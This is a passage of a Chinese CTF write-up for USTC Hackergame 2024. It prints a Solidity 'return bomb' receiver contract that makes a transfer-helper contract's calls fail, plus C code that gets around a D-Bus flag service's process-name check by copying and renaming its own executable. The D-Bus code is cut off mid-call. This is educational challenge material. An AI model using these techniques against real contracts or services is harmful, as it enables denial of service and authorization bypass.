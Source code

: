 试了半天，不会了，本来以为是重入攻击，但是后来想想好像也不是，withdrawPending是有锁的，batchTransfer就算能重入也不会让交易挂掉。

> 看了[官方题解](https://github.com/USTC-Hackergame/hackergame2024-writeups/tree/master/official/%E9%93%BE%E4%B8%8A%E8%BD%AC%E8%B4%A6%E5%8A%A9%E6%89%8B)，是return bomb, 原来还有这样的攻击方法！

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Receiver {
    receive() external payable {
        assembly {
            return(0, 59200)
        }
    }
}
```

## 不太分布式的软总线

> 当然了，上面的论述是在瞎扯淡，不过说到 DBus，小 T 最近写了一个小程序挂在了 DBus 系统总线上。你能拿到小 T 珍藏的 3 个 flag 吗？

考如何使用 dbus

### Comm Say Maybe 

这个其实是flag3,但是因为给了一部分代码，所以就先做了。

需要修改这么几处，1是程序名称必须是getflag3,二是返回结果写的是null,我们要把它改成(s).

dbus的部分是直接问的GPT :3

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <gio/gio.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <unistd.h>

#define DEST "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define METHOD "GetFlag3"
#define INTERFACE "cn.edu.ustc.lug.hack.FlagService"

int main(int argc, char *argv[]) {
  printf("%s\n", argv[0]);
  if (argv[0][0] != 'g') {
    system("cp /dev/shm/executable /dev/shm/getflag3;env PATH=/dev/shm/ getflag3");
    exit(0);
  }
  GError *error = NULL;
  GDBusConnection *connection;
  GVariant *result;

  connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
  if (!connection) {
    g_printerr("Failed to connect to the system bus: %s\n", error->message);
    g_error_free(error);
    return EXIT_FAILURE;
  }

  // Call the D-Bus method and expect a tuple containing a string return type
  result = g_dbus_connection_call_sync(connection,
                                       DEST,        // destination
                                       OBJECT_PATH, // object path
```

  [1]: ./assets//4046521366.webp
  [2]: ./assets//281655009.webp
  [3]: ./assets//4046521366.webp
  [4]: ./assets//1500912061.webp
  [5]: ./assets//3096051582.webp
  [6]: ./assets//557543131.webp